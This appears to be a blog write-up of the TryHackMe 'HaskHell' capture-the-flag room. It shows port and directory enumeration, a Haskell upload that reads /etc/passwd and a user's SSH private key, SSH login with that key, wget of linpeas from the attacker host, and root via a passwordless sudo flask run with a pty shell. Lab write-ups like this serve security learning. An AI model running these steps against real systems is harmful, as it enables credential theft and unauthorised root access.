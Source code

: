 ```yaml
---
title: Tryhackme - HaskHell | EN
author: batmanly
date: 2022-05-30 10:10:00 +3
categories: [Writeup, TryHackme]
tags: [web, flask, haskell, tryhackme, writeup]
render_with_liquid: false
---
```


# Information

## Room

- **Name:** HaskHell
- **Profile:** [HaskHell](https://tryhackme.com/room/haskhell)
- **Difficulty:** Medium
- **Description**: Show your professor that his PhD isn't in security.
  ![[]](/assets/img/tryhackme/haskhell/haskell_logo.png)

## Overview

It's a nice room , that you can use haskell and read file inside server . Previlege escalation step was easy actually that you can access root so fast .

# Write-up

Let's start enumeration and see what we can gather.

## Network enumeration

`Port` and `service` scan with nmap:

```
nmap -T4 -sV -sS  -v -p- 10.10.238.6  -sC -oN HaskHell
```

`Output:`

```

# Nmap 7.92 scan initiated Mon May 30 09:26:16 2022 as: nmap -n -Pn -T4 -sV -sS -v -p- -sC -oN HaskHell 10.10.238.6
Nmap scan report for 10.10.238.6
Host is up (0.084s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-title: Homepage
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: gunicorn/19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

it's look we just have ssh and http open with different port , let's go and enumerate http port.

## Web enumeration

Discovering `directories` and `files` with go buster.

```
gobuster dir -u http://10.10.238.6:5001/ -w $BIG -t 50

```

Let's enumerate files and folders then:

```
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.238.6:5001/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/30 09:31:01 Starting gobuster in directory enumeration mode
===============================================================
/submit               (Status: 200) [Size: 237]

===============================================================
2022/05/30 09:32:11 Finished
===============================================================
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530093249.png)
We found submit directory let's go and see what's there. we realized that server is waiting our haskell file for compile and return result.
we can try to upload haskhell file and try to read file or get reverse shell , i tried get reverse shell but server givin 500 message , so after time i tried reading files it's look we have permission to read file, so lets' get to work and first read /etc/passwd and see what user we can enumerate than we will read this user ssh private key for connect to server with ssh . We can use burpsuite for that we can manipulate easily request and response.

```
http://10.10.238.6:5001/submit

```

upload this file , read_file.hs .

```
import System.Process
main = do
   let file_to_read = "/etc/passwd"
   contents <- readFile file_to_read
   putStrLn contents

```

after upload file we can read passwd.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095710.png)
let's go and read user's id_rsa file. we can enumeate user after start 1000 for this file.
i found that we can read prof id_rsa file .
change read_file.hs to read '/home/prof/.ssh/id_rsa' and get ssh private key.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530095913.png)

## Web exploitation

let's use this ssh private key to connect server.

```
chmod 600 haskhell
ssh prof@10.10.238.6 -i haskhell
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530100047.png)

## Previlege Escalation

let's upload [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and look if we can get any previlege escalation point to root or other user.

```
# Run Python Server
python3 -m http.server 80

# Get Linpeas
wget http://10.8.199.191/linpeas.sh

# Run Linpeas
chmod +x linpeas.sh
./linpeas.sh

```

we found that we can run flask with sudo without password , so let's get root shell from there.
![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101111.png)

```
echo 'import pty;pty.spawn("/bin/bash")' > shell.py
export FLASK_APP=shell.py
sudo /usr/bin/flask run
```

![[]](/assets/img/tryhackme/haskhell/Pasted%20image%2020220530101354.png)

![[]](/assets/img/tryhackme/haskhell/root.gif)
Yep. Now we Got root.
Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.
